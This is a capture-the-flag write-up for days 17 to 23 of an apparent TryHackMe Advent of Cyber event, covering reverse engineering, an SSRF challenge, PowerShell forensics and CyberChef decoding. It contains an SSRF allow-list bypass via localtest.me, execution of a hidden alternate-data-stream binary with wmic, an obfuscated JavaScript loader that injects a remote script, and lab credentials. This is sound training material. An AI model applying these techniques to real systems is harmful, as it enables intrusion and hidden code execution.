|           ; var int local_8h @ rbp-0x8
|           ; var int local_4h @ rbp-0x4
|              ; DATA XREF from 0x00400a4d (entry0)
|           0x00400b4d      55             push rbp
|           0x00400b4e      4889e5         mov rbp, rsp
|           0x00400b51      4883ec10       sub rsp, 0x10
|           0x00400b55      c745f4040000.  mov dword [local_ch], 4
|           0x00400b5c      c745f8050000.  mov dword [local_8h], 5
|           0x00400b63      8b55f4         mov edx, dword [local_ch]
|           0x00400b66      8b45f8         mov eax, dword [local_8h]
|           0x00400b69      01d0           add eax, edx
|           0x00400b6b      8945fc         mov dword [local_4h], eax
|           0x00400b6e      8b4dfc         mov ecx, dword [local_4h]
|           0x00400b71      8b55f8         mov edx, dword [local_8h]
|           0x00400b74      8b45f4         mov eax, dword [local_ch]
|           0x00400b77      89c6           mov esi, eax
|           0x00400b79      488d3d881409.  lea rdi, qword str.the_value_of_a_is__d__the_value_of_b_is__d_and_the_value_of_c_is__d ; 0x492008 ; "the value of a is %d, the value of b is %d and the value of c is %d"
|           0x00400b80      b800000000     mov eax, 0
|           0x00400b85      e8f6ea0000     call sym.__printf
|           0x00400b8a      b800000000     mov eax, 0
|           0x00400b8f      c9             leave
\           0x00400b90      c3             ret
[0x00400a30]> db 0x00400b55
```

If we run the program, we see we immediately hit the breakpoint

```
[0x00400a30]> dc
hit breakpoint at: 400b55
```

We can check on the value of `local_ch` before and after the "`mov dword [local_ch], 4`" instruction.

```
[0x00400b55]> px @ rbp-0xc
- offset -       0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0x7ffc4fef1ba4  0000 0000 1890 6b00 0000 0000 7018 4000  ......k.....p.@.
0x7ffc4fef1bb4  0000 0000 1911 4000 0000 0000 0000 0000  ......@.........
0x7ffc4fef1bc4  0000 0000 0000 0000 0100 0000 d81c ef4f  ...............O
0x7ffc4fef1bd4  fc7f 0000 4d0b 4000 0000 0000 0000 0000  ....M.@.........
0x7ffc4fef1be4  0000 0000 0600 0000 5500 0000 5000 0000  ........U...P...
0x7ffc4fef1bf4  0400 0000 0000 0000 0000 0000 0000 0000  ................
0x7ffc4fef1c04  0000 0000 0000 0000 0000 0000 0000 0000  ................
0x7ffc4fef1c14  0000 0000 0000 0000 0000 0000 0004 4000  ..............@.
0x7ffc4fef1c24  0000 0000 e9e8 fb41 e733 73ab 1019 4000  .......A.3s...@.
0x7ffc4fef1c34  0000 0000 0000 0000 0000 0000 1890 6b00  ..............k.
0x7ffc4fef1c44  0000 0000 0000 0000 0000 0000 e9e8 9b46  ...............F
0x7ffc4fef1c54  b9ac 8b54 e9e8 8f50 e733 73ab 0000 0000  ...T...P.3s.....
0x7ffc4fef1c64  0000 0000 0000 0000 0000 0000 0000 0000  ................
0x7ffc4fef1c74  0000 0000 0000 0000 0000 0000 0000 0000  ................
0x7ffc4fef1c84  0000 0000 0000 0000 0000 0000 0000 0000  ................
0x7ffc4fef1c94  0000 0000 0000 0000 0000 0000 0000 0000  ................
[0x00400b55]> ds
[0x00400b55]> px @ rbp-0xc
- offset -       0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0x7ffc4fef1ba4  0400 0000 1890 6b00 0000 0000 7018 4000  ......k.....p.@.
0x7ffc4fef1bb4  0000 0000 1911 4000 0000 0000 0000 0000  ......@.........
0x7ffc4fef1bc4  0000 0000 0000 0000 0100 0000 d81c ef4f  ...............O
0x7ffc4fef1bd4  fc7f 0000 4d0b 4000 0000 0000 0000 0000  ....M.@.........
0x7ffc4fef1be4  0000 0000 0600 0000 5500 0000 5000 0000  ........U...P...
0x7ffc4fef1bf4  0400 0000 0000 0000 0000 0000 0000 0000  ................
0x7ffc4fef1c04  0000 0000 0000 0000 0000 0000 0000 0000  ................
0x7ffc4fef1c14  0000 0000 0000 0000 0000 0000 0004 4000  ..............@.
0x7ffc4fef1c24  0000 0000 e9e8 fb41 e733 73ab 1019 4000  .......A.3s...@.
0x7ffc4fef1c34  0000 0000 0000 0000 0000 0000 1890 6b00  ..............k.
0x7ffc4fef1c44  0000 0000 0000 0000 0000 0000 e9e8 9b46  ...............F
0x7ffc4fef1c54  b9ac 8b54 e9e8 8f50 e733 73ab 0000 0000  ...T...P.3s.....
0x7ffc4fef1c64  0000 0000 0000 0000 0000 0000 0000 0000  ................
0x7ffc4fef1c74  0000 0000 0000 0000 0000 0000 0000 0000  ................
0x7ffc4fef1c84  0000 0000 0000 0000 0000 0000 0000 0000  ................
0x7ffc4fef1c94  0000 0000 0000 0000 0000 0000 0000 0000  ................
[0x00400b55]> 
```

We can see how the variable's value has changed.

### Moving on to challenge1

Well now that we know the basics of `radare2` (well I hope you do cause I don't lol)...

So instead of using `radare2` to solve challenge1, I opted to use GDB with the pwndbg add-on.

However, I still needed to use `r2` to see what the questions were referring to.

```
|           ; var int local_ch @ rbp-0xc
|           ; var int local_8h @ rbp-0x8
|           ; var int local_4h @ rbp-0x4
```

Now, let's begin! Firstly, I started gdb using the following command:

```
bluemoon@dragonfly:~/ctf/thm/thm-advent/day17-reverseelfneering$ gdb challenge1
```

Then, I disassembled it to see the assembly code:

```
pwndbg> disassemble main
Dump of assembler code for function main:
   0x0000000000400b4d <+0>:     push   rbp
   0x0000000000400b4e <+1>:     mov    rbp,rsp
   0x0000000000400b51 <+4>:     mov    DWORD PTR [rbp-0xc],0x1
   0x0000000000400b58 <+11>:    mov    DWORD PTR [rbp-0x8],0x6
   0x0000000000400b5f <+18>:    mov    eax,DWORD PTR [rbp-0xc]
   0x0000000000400b62 <+21>:    imul   eax,DWORD PTR [rbp-0x8]
   0x0000000000400b66 <+25>:    mov    DWORD PTR [rbp-0x4],eax
   0x0000000000400b69 <+28>:    mov    eax,0x0
   0x0000000000400b6e <+33>:    pop    rbp
   0x0000000000400b6f <+34>:    ret    
End of assembler dump.
```

Lets set some breakpoints after the instructions we want to see the results of.

```
pwndbg> break *0x0000000000400b58
Breakpoint 1 at 0x400b58
pwndbg> break *0x0000000000400b66
Breakpoint 2 at 0x400b66
pwndbg> break *0x0000000000400b69
Breakpoint 3 at 0x400b69
```

When we hit `Breakpoint 1, 0x0000000000400b58 in main`, we examine the value of `rbp-0xc` (aka `local_ch`) and continue to program execution.

```
pwndbg> x $rbp-0xc
0x7fffffffdf04: 0x00000001
pwndbg> c
Continuing.
```

When we hit `Breakpoint 2, 0x0000000000400b66 in main`, we look for the value of `eax` and continue the program execution.

```
pwndbg> info registers eax
eax            0x6                 6
pwndbg> c
Continuing.
```

When we hit `Breakpoint 3, 0x0000000000400b69 in main`, we look for the value of `rbp-0x4` (aka `local_4h`) and continue the program execution.

```
pwndbg> x $rbp-0x4
0x7fffffffdf0c: 0x00000006
pwndbg> c
Continuing.
```

Then, we see that the program terminates:
```
[Inferior 1 (process 9100) exited normally]
```

Overall, we were able to answer all the questions.

#### What is the value of local_ch when its corresponding movl instruction is called (first if multiple)?

The value of `local_ch` was `0x00000001` which is hexadecimal for `1`.

#### What is the value of eax when the imull instruction is called?

The value of `eax` was `0x6` which is hexadecimal for `6`.

#### What is the value of local_4h before eax is set to 0?

The value of `local_4h` was `0x00000006` which is hexadecimal for `6`.

### Side note

Since this was a relatively simple binary we could have gotten the answers just by reading the assembly code.

Here, we see the value `0x1` being put into `rbp-0xc`.
```
0x0000000000400b51 <+4>:     mov    DWORD PTR [rbp-0xc],0x1
```

Next we see the value `0x6` being put into `rbp-0x8` which is later put into `eax`.
```
0x0000000000400b58 <+11>:    mov    DWORD PTR [rbp-0x8],0x6
0x0000000000400b62 <+21>:    imul   eax,DWORD PTR [rbp-0x8]
```

Lastly, we see the value of `eax` (which is `0x6`) being put into `rbp-0x4`.
```
0x0000000000400b66 <+25>:    mov    DWORD PTR [rbp-0x4],eax
```

## Day 18: The Bits of the Christmas

*Category: Reverse Engineering*  
*Tags: GDB, Linux*

>Continuing from yesterday, practice your reverse engineering.

IP: `10.10.120.124`

### Connecting to the Windows Machine using RDP

I used Microsoft Remote Desktop for macOS to connect to the target machine. I logged in with the credentials `cmnatic:Adventofcyber!`.

```sh
# By the way, here is the command to forward a port the target machine through a virtual machine to the host machine.
ssh -L 3389:IP_OF_TARGET_MACHINE:3389 IP_OF_VIRTUAL_MACHINE
```


### Getting Santa's password and the flag!

Next, we can open up the binary in ILSpy. After poking around, I found the following:



We can see the santa's password is `santapassword321`.

### Although technically the flag's in the previous screenshot...

I still wanted to run the executable application. So I opened it up and enter the password we found.



Flag: `thm{046af}`

## Day 19: The Naughty or Nice List

*Category: Special*  
*Tags: Web, SSRF*  
*Special Contributer: Tib3rius*  

> Santa has released a web app that lets the children of the world check whether they are currently on the naughty or nice list. Unfortunately the elf who coded it exposed more things than she thought. Can you access the list administration and ensure that every child gets a present from Santa this year?

IP: `10.10.219.138`

### Finding the vulnerability



Turns out, this page is vulnerable to Server Side Request Forgery.

After searching for a name, we are redirected to a link similar to `http://10.10.219.138/?proxy=http%3A%2F%2Flist.hohoho%3A8080%2Fsearch.php%3Fname%3Dbluemoon`.

If we URL Decode the proxy parameter we get `http://list.hohoho:8080/search.php?name=bluemoon`

So this kinda looks like a URL. However list.hohoho is not a valid URL. This must be the hostname of some backend machine. Let's try poking around. If try to visit `http://list.hohoho:80` by accessing `http://10.10.219.138/?proxy=http%3A%2F%2Flist.hohoho%3A80`, we get `Failed to connect to list.hohoho port 80: Connection refused`. Looks like port 80 is closed. If we try to visit the SSH port using the same technique by visiting `http://10.10.219.138/?proxy=http%3A%2F%2Flist.hohoho%3A22` we get `Recv failure: Connection reset by peer` which means that the SSH port is open but failed to connect since we are sending an HTTP request to the SSH port which surprisingly and unfortunately does not work.

So next, let's check out what's running on the machine's localhost by visiting `http://10.10.219.138/?proxy=http%3A%2F%2Flocalhost`. Unfortunately, it their "security team" blocked our attempt with the message `Your search has been blocked by our security team.`.

But can we circumvent this? It turns out we can! The "security team" only ensures that the hostname starts with `list.hohoho`. However, we can find a domain that resolves itself and every subdomain to `127.0.0.1` (localhost). It turns out `localtest.me` resolves every subdomain to `127.0.0.1`. So, we can access the site on `localhost:80` by visiting `http://10.10.219.138/?proxy=http%3A%2F%2Flist.hohoho.localtest.me`.

Oh and by the way, here is the DNS lookup for `localtest.me`:
```
bluemoon@dragonfly:~/ctf/thm/thm-advent/day19-the-naughty-or-nice-list$ nslookup localtest.me
Server:         127.0.0.53
Address:        127.0.0.53#53

Non-authoritative answer:
Name:   localtest.me
Address: 127.0.0.1
```

We also found a message from Elf McSkidy!

```
Santa,

If you need to make any changes to the Naughty or Nice list, you need to login.

I know you have trouble remembering your password so here it is: Be good for goodness sake!

- Elf McSkidy 
```

So it turns out Santa's password is: `Be good for goodness sake!`  
We can also guess that his username is either `admin`, `santa` or something like that. It turns out it was `Santa`.

### Getting the flag

Now, we can log in with Santa's credentials and we are greeted with an admin panel.



If we click the `DELETE NAUGHTY LIST` button, we get the flag in a JavaScript alert!

Flag: `THM{EVERYONE_GETS_PRESENTS}`

## Day 20: PowershELlF to the rescue

*Category: Blue Teaming*  
*Tags: Powershell*

> Understand how to use PowerShell to find all that was removed from the stockings that were hidden throughout the endpoint.

IP: `10.10.90.95`

### Connecting via SSH

We are given the credentials `mceager:r0ckStar!`

We run SSH with the following command:
```
ssh mceager@10.10.90.95
```

We are then greeted with a Windows Command prompt which we can make a Powershell prompt!
```
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

mceager@ELFSTATION1 C:\Users\mceager>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved. 

PS C:\Users\mceager> 
```

### Getting started in PowerShell

Being a macOS and Linux user all my life (well, I have and still use Windows just not for coding), I am very unfamiliar with the Command Prompt and Powershell.

First we change to the Documents folder.
```
PS C:\Users\mceager> Set-Location Documents 
PS C:\Users\mceager\Documents>
```

We can then do a quick directory listing.
```
PS C:\Users\mceager\Documents> Get-ChildItem -File -Hidden


    Directory: C:\Users\mceager\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a-hs-        12/7/2020  10:29 AM            402 desktop.ini
-arh--       11/18/2020   5:05 PM             35 e1fone.txt
```

Note, I will be using some Linux aliases throughout since PS cmdlets are too verbose and I'm lazy and not used to them.

### Search for the first hidden elf file within the Documents folder. Read the contents of this file. What does Elf 1 want?

We can get the contents from the `e1fone.txt` file.
```
PS C:\Users\mceager\Documents> cat e1fone.txt
All I want is my '2 front teeth'!!!
```

### Search on the desktop for a hidden folder that contains the file for Elf 2. Read the contents of this file. What is the name of that movie that Elf 2 wants?

First, we change to the Desktop folder.
```
PS C:\Users\mceager\Documents> cd ../Desktop
```

We see an `elf2wo` directory so let's explore.
```
PS C:\Users\mceager\Desktop> ls -Hidden

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d--h--        12/7/2020  11:26 AM                elf2wo
-a-hs-        12/7/2020  10:29 AM            282 desktop.ini

PS C:\Users\mceager\Desktop> cd elf2wo
PS C:\Users\mceager\Desktop\elf2wo> ls 


    Directory: C:\Users\mceager\Desktop\elf2wo


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       11/17/2020  10:26 AM             64 e70smsW10Y4k.txt

PS C:\Users\mceager\Desktop\elf2wo> cat e70smsW10Y4k.txt
I want the movie Scrooged <3!
```

### Search the Windows directory for a hidden folder that contains files for Elf 3. What is the name of the hidden folder?

We can run the following cmdlet to find the hidden folder for Elf 3.
```
PS C:\> ls -Recurse -Path C:\Windows -Filter '*3*' -Directory -Hidden -ErrorAction SilentlyContinue


    Directory: C:\Windows\System32


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d--h--       11/23/2020   3:26 PM                3lfthr3e
```

We can then change into that directory.
```
PS C:\> cd C:/Windows/System32/3lfthr3e
```

### How many words does the first file contain?

We can pipe the output of `Get-Content` into `Measure-Object -Word` to get a word count.
```
PS C:\Windows\System32\3lfthr3e> cat 1.txt | Measure-Object -Word

Lines Words Characters Property 
----- ----- ---------- --------
       9999
```

### What 2 words are at index 551 and 6991 in the first file?

We can use square brackets to index the output.
```
PS C:\Windows\System32\3lfthr3e> (cat 1.txt)[551]
Red
PS C:\Windows\System32\3lfthr3e> (cat 1.txt)[6991]
Ryder
```

### Search in the 2nd file for the phrase from the previous question to get the full answer. What does Elf 3 want?

We can search inside a file with a pattern as follows:
```
PS C:\Windows\System32\3lfthr3e> Select-String 2.txt -Pattern "redryder*" 

2.txt:558704:redryderbbgun
```

## Day 21: Time for some ELForensics

*Category: Blue Teaming*  
*Tags: Forensics*

> Understand how to use PowerForensics to find clues as to where the naughty list was hidden.

IP: `10.10.154.191`

### Connecting via RDP

We are given credentials `littlehelper:iLove5now!` to connect to the Windows machine using RDP.


And we land into a Windows desktop!


### Getting started

First we open up Powershell (which is conviniently already in the TaskBar) and enter the Documents directory.

```
PS C:\Users\littlehelper> cd Documents
PS C:\Users\littlehelper\Documents>
```

### Contents of the "`db file hash.txt`" file.

We can use the `Get-Content` cmdlet or the `gc`, `cat` or `type` aliases to get the contents of the text file.
```
PS C:\Users\littlehelper\Documents> cat "db file hash.txt"
Filename:       db.exe
MD5 Hash:       596690FFC54AB6101932856E6A78E3A1
```

### Getting the hash of `deebee.exe`

We can use the `Get-FileHash` cmdlet to get the MD5 hash of `deebee.exe`.
```
PS C:\Users\littlehelper\Documents> Get-FileHash -Algorithm MD5 deebee.exe

Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
MD5             5F037501FB542AD2D9B06EB12AED09F0                                       C:\Users\littlehelper\Documents\deebee.exe
```

### Getting the flag!

We can use `C:\Tools\strings64.exe` (similar to the strings command on Linux) to find all the strings in a binary file. Then we pipe it into the `Select-String` cmdlet (which will work similar to grep in Linux) with a pattern.
```
PS C:\Users\littlehelper\Documents> /Tools/strings64.exe -nobanner deebee.exe | Select-String -Pattern "THM{*"

THM{f6187e6cbeb1214139ef313e108cb6f9}
```

Flag 1: `THM{f6187e6cbeb1214139ef313e108cb6f9}`

### Running the real database connector and getting another flag!

We can look at the executable for Alternate Data Streams.
```
PS C:\Users\littlehelper\Documents> Get-Item deebee.exe -Stream *


PSPath        : Microsoft.PowerShell.Core\FileSystem::C:\Users\littlehelper\Documents\deebee.exe::$DATA
PSParentPath  : Microsoft.PowerShell.Core\FileSystem::C:\Users\littlehelper\Documents
PSChildName   : deebee.exe::$DATA
PSDrive       : C
PSProvider    : Microsoft.PowerShell.Core\FileSystem
PSIsContainer : False
FileName      : C:\Users\littlehelper\Documents\deebee.exe
Stream        : :$DATA
Length        : 5632

PSPath        : Microsoft.PowerShell.Core\FileSystem::C:\Users\littlehelper\Documents\deebee.exe:hidedb
PSParentPath  : Microsoft.PowerShell.Core\FileSystem::C:\Users\littlehelper\Documents
PSChildName   : deebee.exe:hidedb
PSDrive       : C
PSProvider    : Microsoft.PowerShell.Core\FileSystem
PSIsContainer : False
FileName      : C:\Users\littlehelper\Documents\deebee.exe
Stream        : hidedb
Length        : 6144
```

We can then run hidden executable.
```
PS C:\Users\littlehelper\Documents> wmic process call create $(Resolve-Path .\deebee.exe:hidedb)
Executing (Win32_Process)->Create()
Method execution successful.
Out Parameters:
instance of __PARAMETERS
{
        ProcessId = 172;
        ReturnValue = 0;
};
```

And then we get our final flag!
```
Choose an option:
1) Nice List
2) Naughty List
3) Exit

THM{088731ddc7b9fdeccaed982b07c297c}

Select an option:
```

Flag 2: `THM{088731ddc7b9fdeccaed982b07c297c}`

## Day 22: Elf McEager becomes CyberElf

*Category: Blue Teaming*  
*Tags: Cyberchef, Encoding*

> You have found where the naughty list has been hidden online but it's encoded. Learn how to decode the contents of this file using CyberChef.

IP: `10.10.195.171`

### Logging in

Once again, we can use Microsoft RDP to log in. Once logged in, we find a folder with the name `dGhlZ3JpbmNod2FzaGVyZQ==`. It kinda looks like base64, so i decide to base 64 decode it.

```
bluemoon@dragonfly:~/ctf/thm/thm-advent/day22-elf-mceager-becomes-cyberelf$ echo "dGhlZ3JpbmNod2FzaGVyZQ==" | base64 -d
thegrinchwashere
```

Ahh, big yikes...

### Opening keypass

If we open keypass, we find out that it is locked with a master password. We can try to use `thegrinchwashere` as the password and sure enough, it works!



### Getting the passwords

I will be using CyberChef to decode most if not all of these.  

The password for the Elf Server is `736e30774d346e21` which we can decode using hex to find `sn0wM4n!`  

The password for the ElfMail is `&#105;&#99;&#51;&#83;&#107;&#97;&#116;&#105;&#110;&#103;&excl;` which we can decode using HTML Entity to find `ic3Skating!`

### Getting the flag

If we look at the notes for the Elf Security System. It looks like obfuscated JavaScript code.

```js
eval(String.fromCharCode(118, 97, 114, 32, 115, 111, 109, 101, 115, 116, 114, 105, 110, 103, 32, 61, 32, 100, 111, 99, 117, 109, 101, 110, 116, 46, 99, 114, 101, 97, 116, 101, 69, 108, 101, 109, 101, 110, 116, 40, 39, 115, 99, 114, 105, 112, 116, 39, 41, 59, 32, 115, 111, 109, 101, 115, 116, 114, 105, 110, 103, 46, 116, 121, 112, 101, 32, 61, 32, 39, 116, 101, 120, 116, 47, 106, 97, 118, 97, 115, 99, 114, 105, 112, 116, 39, 59, 32, 115, 111, 109, 101, 115, 116, 114, 105, 110, 103, 46, 97, 115, 121, 110, 99, 32, 61, 32, 116, 114, 117, 101, 59, 115, 111, 109, 101, 115, 116, 114, 105, 110, 103, 46, 115, 114, 99, 32, 61, 32, 83, 116, 114, 105, 110, 103, 46, 102, 114, 111, 109, 67, 104, 97, 114, 67, 111, 100, 101, 40, 49, 48, 52, 44, 32, 49, 48, 52, 44, 32, 49, 49, 54, 44, 32, 49, 49, 54, 44, 32, 49, 49, 50, 44, 32, 49, 49, 53, 44, 32, 53, 56, 44, 32, 52, 55, 44, 32, 52, 55, 44, 32, 49, 48, 51, 44, 32, 49, 48, 53, 44, 32, 49, 49, 53, 44, 32, 49, 49, 54, 44, 32, 52, 54, 44, 32, 49, 48, 51, 44, 32, 49, 48, 53, 44, 32, 49, 49, 54, 44, 32, 49, 48, 52, 44, 32, 49, 49, 55, 44, 32, 57, 56, 44, 32, 52, 54, 44, 32, 57, 57, 44, 32, 49, 49, 49, 44, 32, 49, 48, 57, 44, 32, 52, 55, 44, 32, 49, 48, 52, 44, 32, 49, 48, 49, 44, 32, 57, 55, 44, 32, 49, 49, 56, 44, 32, 49, 48, 49, 44, 32, 49, 49, 48, 44, 32, 49, 49, 52, 44, 32, 57, 55, 44, 32, 49, 48, 53, 44, 32, 49, 50, 50, 44, 32, 57, 55, 44, 32, 52, 55, 41, 59, 32, 32, 32, 118, 97, 114, 32, 97, 108, 108, 115, 32, 61, 32, 100, 111, 99, 117, 109, 101, 110, 116, 46, 103, 101, 116, 69, 108, 101, 109, 101, 110, 116, 115, 66, 121, 84, 97, 103, 78, 97, 109, 101, 40, 39, 115, 99, 114, 105, 112, 116, 39, 41, 59, 32, 118, 97, 114, 32, 110, 116, 51, 32, 61, 32, 116, 114, 117, 101, 59, 32, 102, 111, 114, 32, 40, 32, 118, 97, 114, 32, 105, 32, 61, 32, 97, 108, 108, 115, 46, 108, 101, 110, 103, 116, 104, 59, 32, 105, 45, 45, 59, 41, 32, 123, 32, 105, 102, 32, 40, 97, 108, 108, 115, 91, 105, 93, 46, 115, 114, 99, 46, 105, 110, 100, 101, 120, 79, 102, 40, 83, 116, 114, 105, 110, 103, 46, 102, 114, 111, 109, 67, 104, 97, 114, 67, 111, 100, 101, 40, 52, 57, 44, 32, 52, 57, 44, 32, 49, 48, 48, 44, 32, 53, 49, 44, 32, 53, 48, 44, 32, 52, 57, 44, 32, 53, 48, 44, 32, 53, 50, 44, 32, 53, 50, 44, 32, 57, 57, 44, 32, 53, 50, 44, 32, 49, 48, 48, 44, 32, 53, 52, 44, 32, 53, 52, 44, 32, 53, 53, 44, 32, 53, 50, 44, 32, 53, 50, 44, 32, 53, 52, 44, 32, 49, 48, 48, 44, 32, 57, 56, 44, 32, 49, 48, 50, 44, 32, 49, 48, 48, 44, 32, 53, 55, 44, 32, 57, 55, 44, 32, 53, 49, 44, 32, 53, 48, 44, 32, 53, 55, 44, 32, 53, 54, 44, 32, 57, 55, 44, 32, 53, 54, 44, 32, 53, 54, 44, 32, 57, 56, 44, 32, 53, 54, 41, 41, 32, 62, 32, 45, 49, 41, 32, 123, 32, 110, 116, 51, 32, 61, 32, 102, 97, 108, 115, 101, 59, 125, 32, 125, 32, 105, 102, 40, 110, 116, 51, 32, 61, 61, 32, 116, 114, 117, 101, 41, 123, 100, 111, 99, 117, 109, 101, 110, 116, 46, 103, 101, 116, 69, 108, 101, 109, 101, 110, 116, 115, 66, 121, 84, 97, 103, 78, 97, 109, 101, 40, 34, 104, 101, 97, 100, 34, 41, 91, 48, 93, 46, 97, 112, 112, 101, 110, 100, 67, 104, 105, 108, 100, 40, 115, 111, 109, 101, 115, 116, 114, 105, 110, 103, 41, 59, 32, 125));
```

If we run it in the browser console, we get the following:

```html
<script type=​"text/​javascript" async src=​"hhttps:​/​/​gist.github.com/​heavenraiza/​">​</script>​
```

Looks like they made a typo, but if we go to `https:​/​/​gist.github.com/​heavenraiza/`, we can find the final flag!

Flag: `THM{657012dcf3d1318dca0ed864f0e70535}`

## Day 23: The Grinch strikes again

*Category: Blue Teaming*  
*Tags: Volume shadow copy service, Windows forensics*

> As the day draws near the Grinch is desperate. He used his secret weapon and launched a ransomware attack crippling the endpoints. Understand what is VSS and how it is used to recover files on the endpoint.

IP: `10.10.71.169`

### Connecting via RDP

Once again, I used Microsoft Remote Desktop to connect. This time the credentials are: `administrator:sn0wF!akes!!!`

### Reading the ransomnote

If we open the ransomnote, we find the following message.

```
As you were calmly looking at your documents I encrypted all the workstations at Best Festival Company just now. Including yours McEager! Send me lots and lots of money to my bitcoin address (bm9tb3JlYmVzdGZlc3RpdmFsY29tcGFueQ==) and MAYBE I'll give you the key to decrypt. >:^p
```

The bitcoin address something in base64. We can try to decode it.

```
bluemoon@dragonfly:~/ctf/thm/thm-advent/day23-the-grinch-strikes-again$ echo "bm9tb3JlYmVzdGZlc3RpdmFsY29tcGFueQ==" | base64 -d
nomorebestfestivalcompany
```

### Looking at the encrypted files

First we assign a letter to all of the dirves so that we can view them in the Windows explorer. 


I took a look at the Backup drive first.

